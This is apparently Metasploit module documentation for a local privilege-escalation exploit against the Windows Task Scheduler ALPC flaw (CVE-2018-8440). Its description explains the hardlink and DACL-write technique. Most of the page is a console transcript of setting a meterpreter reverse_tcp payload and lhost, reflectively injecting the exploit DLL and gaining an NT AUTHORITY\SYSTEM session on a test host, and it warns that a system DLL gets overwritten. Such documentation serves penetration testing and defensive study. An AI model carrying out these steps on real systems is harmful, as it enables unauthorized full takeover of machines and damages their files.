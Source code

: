 ## Description

On vulnerable versions of Windows the alpc endpoint method SchRpcSetSecurity implemented by the task scheduler service can be used to write arbitrary DACLs to `.job` files located in `c:\windows\tasks` because the scheduler does not use impersonation when checking this location. Since users can create files in the `c:\windows\tasks` folder, a hardlink can be created to a file the user has read access to. After creating a hardlink, the vulnerability can be triggered to set the DACL on the linked file.

WARNING:
The PrintConfig.dll (%windir%\system32\driverstor\filerepository\prnms003*) on the target host
will be overwritten when the exploit runs.

This module has been tested against Windows 10 Pro x64.

## Vulnerable Application

Affected Windows OS versions and related patch details can be found in the [Microsoft Advisory for CVE-2018-8440](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8440).

## Verification Steps

* Get a meterpreter session on Windows 10 x64
* `use exploit/windows/local/alpc_taskscheduler`
* `set session <session>`
* `set payload <payload>`
* `set lhost <lhost>`
* `run`
* Get a session as SYSTEM

## Scenarios

### Tested on Windows 10 Pro Version 1803 x64

```
msf > use exploit/windows/local/alpc_taskscheduler
msf exploit(windows/local/alpc_taskscheduler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/alpc_taskscheduler) > set lhost 172.22.222.136
lhost => 172.22.222.136
msf exploit(windows/local/alpc_taskscheduler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                                                       Connection
  --  ----  ----                     -----------                                                                       ----------
  1         shell x64/windows        Microsoft Windows [Version 10.0.17134.228] (c) 2018 Microsoft Corporation. Al...  172.22.222.136:4444 -> 172.22.222.200:50490 (172.22.222.200)
  2         meterpreter x64/windows  DESKTOP-IPOGIJR\lowmsfdev @ DESKTOP-IPOGIJR                                       172.22.222.136:4444 -> 172.22.222.200:50491 (172.22.222.200)

msf exploit(windows/local/alpc_taskscheduler) > set session 1
session => 1
msf exploit(windows/local/alpc_taskscheduler) > exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.22.222.136:4444
[-] Exploit aborted due to failure: none: Only meterpreter sessions are supported
[*] Exploit completed, but no session was created.
msf exploit(windows/local/alpc_taskscheduler) > set session 2
session => 2
msf exploit(windows/local/alpc_taskscheduler) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444
[*] Checking target...
[*] Target looks good... attempting the LPE exploit
[+] Process 6140 launched.
[*] Writing payload dll into process 6140 memory
[*] Reflectively injecting the exploit DLL into 6140...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to 172.22.222.200
[*] Meterpreter session 3 opened (172.22.222.136:4444 -> 172.22.222.200:50492) at 2018-09-21 12:28:00 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 3...
msf exploit(windows/local/alpc_taskscheduler) > set session 3
session => 3
msf exploit(windows/local/alpc_taskscheduler) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444
[*] Checking target...
[-] Exploit aborted due to failure: none: Session is already elevated
[*] Exploit completed, but no session was created.
msf exploit(windows/local/alpc_taskscheduler) >
```
